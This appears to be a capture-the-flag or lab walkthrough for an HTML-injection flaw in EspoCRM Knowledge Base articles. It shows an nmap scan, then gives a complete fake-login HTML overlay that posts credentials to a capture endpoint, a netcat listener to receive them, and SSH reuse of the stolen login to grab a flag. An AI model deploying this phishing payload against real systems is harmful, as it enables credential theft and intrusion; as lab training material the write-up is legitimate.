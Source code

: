 # EspoCRM CVE-2025-32390 Walkthrough

## Enumeration

### Nmap Scan

```
nmap -sC -sV -A -O -p- 192.168.1.104
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-27 20:47 PDT
Nmap scan report for 192.168.1.104
Host is up (0.0040s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1f:72:ad:28:65:80:46:b4:9d:e0:49:b1:1f:10:8b:8e (ECDSA)
|_  256 d7:20:a0:37:1c:17:6c:a3:69:ea:f3:02:c2:b1:94:fc (ED25519)
443/tcp  open  http    Apache httpd 2.4.58
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
8082/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: EspoCRM
9000/tcp open  http    BaseHTTPServer 0.6 (Python 3.12.3)
|_http-server-header: BaseHTTP/0.6 Python/3.12.3
|_http-title: Link Processor
MAC Address: 08:00:27:A1:BC:30 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4)
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   3.96 ms 192.168.1.104

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.31 seconds

```

## Exploitation

### Vulnerability Summary

EspoCRM versions prior to 9.0.8 are vulnerable to HTML injection in Knowledge Base (KB) articles. Authenticated users with "read" privileges can create malicious articles that mimic legitimate login pages. When unsuspecting users enter credentials into these fake forms, the attacker captures them in plaintext.

This vulnerability can be used for:
- Phishing login credentials from unsuspecting users
- Imitating login portals of EspoCRM or even other enterprise applications
- Leveraging trust in KB content to execute social engineering attacks

> **Patched in:** v9.0.8

### Steps to Exploit

1. **Create a KB Article** titled `test` and paste the following HTML in the "Code" view:

    ````html
    <div style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: #f0f0f0; z-index: 9999; display: flex; justify-content: center; align-items: center;">
        <div id="login" class="panel panel-default block-center-sm">
            <div class="panel-heading">
                <div class="logo-container">
                    <img src="client/img/logo-light.svg" class="logo">
                </div>
            </div>
            <div class="panel-body">
                <form id="login-form" action="http://localhost/capture" method="POST">
                    <div class="form-group cell" data-name="username">
                        <label for="field-username">Username</label>
                        <input type="text" name="username" id="field-userName" class="form-control">
                    </div>
                    <div class="form-group cell" data-name="password">
                        <label for="login">Password</label>
                        <input type="password" name="password" id="field-password" class="form-control">
                    </div>
                    <div class="margin-top-2x cell" data-name="submit">
                        <button type="submit" class="btn btn-primary btn-s-wide">Log in</button>
                    </div>
                </form>
            </div>
        </div>
    </div>
    ````

2. Save and publish the article using the **`</>` code view** (second-last icon on the editor).
3. Copy the article link.
4. Start a listener to capture credentials:

    ```bash
    nc -lvnp 80
    ```

5. Submit the phishing article URL to `http://localhost:9000` with attacker ip (ie."-http://localhost:8082/#KnowledgeBaseArticle/view/123?attacker=192.168.1.100").
6. Wait for the victim to enter credentials they will be captured in your Netcat listener.
7. Use the credentials to SSH into the server:

    ```bash
    ssh user@192.168.1.104
    ```

8. Grab the flag:

    ```bash
    cat /proof.txt
    ```

## Escalation

None.